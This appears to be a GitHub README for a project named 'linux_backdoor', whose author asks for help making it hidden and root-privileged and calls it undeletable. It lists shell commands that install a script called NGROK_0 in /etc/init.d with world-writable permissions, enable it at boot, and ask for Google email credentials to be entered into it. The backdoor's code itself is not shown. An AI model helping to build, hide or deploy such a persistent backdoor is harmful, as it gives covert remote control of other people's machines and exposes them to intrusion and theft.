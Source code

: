 # linux_backdoor<br/>
i hope from anyone who can ,to help me to upgrade my code<br/>
linux backdoor , have some fanctionalites , its undeletble , i am still working to hide it and gave it root previlages<br/>
after you download it you do this commands:<br/>
nano NGROK_0<br/>
#change MAIL and PASSWD in line 23 , 24 , to your google email and password<br/>
sudo mv NGROK_0 /etc/init.d/<br/>
sudo chown root:root /etc/init.d/NGROK_0<br/>
sudo chmod 777 /etc/init.d/NGROK_0<br/>
sudo update-rc.d  NGROK_0 defaults<br/>
sudo update-rc.d  NGROK_0 enable<br/>
sudo systemctl daemon-reload<br/>
sudo service start  NGROK_0<br/>


